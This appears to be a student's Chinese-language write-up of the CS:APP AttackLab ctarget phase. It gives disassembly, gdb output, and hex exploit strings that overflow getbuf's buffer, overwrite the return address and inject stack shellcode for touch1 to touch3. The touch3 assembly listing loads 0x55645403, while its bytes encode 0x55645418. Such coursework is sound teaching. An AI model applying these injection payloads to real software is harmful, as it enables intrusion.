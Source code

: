 # AttackLab 思路
## ctarget
ctarget的三个touch都是通过栈溢出攻击实现的。首先根据attacklab的writeup中所给信息：
``` c
unsigned getbuf()
{
    charbuf[BUFFER_SIZE];
    Gets(buf);
    return 1;
}
```
以及ctarget中反汇编所得信息：
``` asm
00000000004016e7 <getbuf>:
  4016e7:	48 83 ec 18          	sub    $0x18,%rsp
  4016eb:	48 89 e7             	mov    %rsp,%rdi
  4016ee:	e8 7d 02 00 00       	callq  401970 <Gets>
  4016f3:	b8 01 00 00 00       	mov    $0x1,%eax
  4016f8:	48 83 c4 18          	add    $0x18,%rsp
  4016fc:	c3                   	retq   
```
可知，BUFFER_SIZE为$0x18$，即24个字节。
#### touch1
观察touch1的源代码：
``` c
void touch1()
{
    vlevel=1; /* Part of validation protocol */
    printf("Touch1!: You called touch1()\n");
    validate(1);
    exit(0);
}
```
可知我们只需要通过缓冲区溢出攻击覆盖掉getbuf的返回地址，即可完成该任务，由反汇编得知，touch1的地址为$0x4016FD$
``` asm
00000000004016fd <touch1>:
  4016fd:	48 83 ec 08          	sub    $0x8,%rsp
  401701:	c7 05 f1 2d 20 00 01 	movl   $0x1,0x202df1(%rip)
......
```
因此我们可以通过下面的字符串完成攻击（需先使用hex2raw转换为二进制）
``` plain
ctargetString/touch1.txt:

00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
FD 16 40 00 00 00 00 00

```
#### touch2
观察touch2的源代码：
``` c
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie) {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    } else {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
        }
    exit(0);
}
```
我们必须让`val`的值与`cookie`相等（在本实验中`cookie`的值为$0x754E7DDD$），因此我们必须让程序执行下列汇编代码：
``` asm
intro.touch2.s

mov $0x754e7ddd,%edi
push $0x401729
ret
```
第一行是将`cookie`作为参数传入，第二行将`touch2`的函数地址压栈，第三行返回，即可跳转至`touch2`。
现在的任务就是让程序执行上述指令，我们可以通过将上述指令的机器码压入栈中，让getbuf跳转至栈上储存上述指令的区域来实现。
由gdb调试可知，`charbuf`的首地址为$0x556453F8$
``` plain
(gdb) r
Starting program: /winshare/csapp-homework/10235101439/target3/ctarget -q -i ctargetString/touch2.raw
Cookie: 0x754e7ddd

Breakpoint 3, getbuf () at buf.c:14
14      in buf.c
=> 0x00000000004016eb <getbuf+4>:       48 89 e7        mov    %rsp,%rdi
   0x00000000004016ee <getbuf+7>:       e8 7d 02 00 00  callq  0x401970 <Gets>
(gdb) p /x $rsp
$3 = 0x556453f8
```
于是我们将上述汇编代码转换成机器码后作为字符串输入，并将getbuf的返回地址覆盖为$0x556453F8$。即，我们输入的字符串的二进制序列为：
``` plain
ctargetString/touch2.txt

bf dd 7d 4e 75 68 29 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
f8 53 64 55 00 00 00 00
```
#### touch3
由writeup中给出的代码：
``` c
void touch3(char *sval)
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
```
而`touch3`中调用的函数`hexmatch`如下：
``` c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
```
该函数的目标是将`sval`指向的字符串与`cookie`的16进制字符串形式作比较，若相等则返回1，否则返回0。
当`hexmatch`的返回值为1时则表示`touch3`被解决。
类似于`touch2`，但是我们这次需要在`%rdi`中存入的是字符串的地址
``` asm
intro.touch3.s

mov $0x55645403,%edi
push $0x401837
ret
```
同时，由于调用了一些函数，栈中较低地址的位置会被覆盖掉，因此我们将字符串放置于栈的末尾，需要传入的字符串的二进制表示如下：
``` plain
bf 18 54 64 55 68 37 18
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
f8 53 64 55 00 00 00 00
37 35 34 65 37 64 64 64 00
```
`cookie`转为二进制表示由以下辅助程序完成：
``` c
//printcookie.c
#include <stdio.h>

int main()
{
    char cookie_str[100];
    sprintf(cookie_str, "%.8x\n", 0x754e7ddd);
    char a;
    int idx = 0;
    while ((a = cookie_str[idx++]) != '\0')
    {
        printf("%.2x ", a);
    }
    printf("\n");
    return 0;
}
```
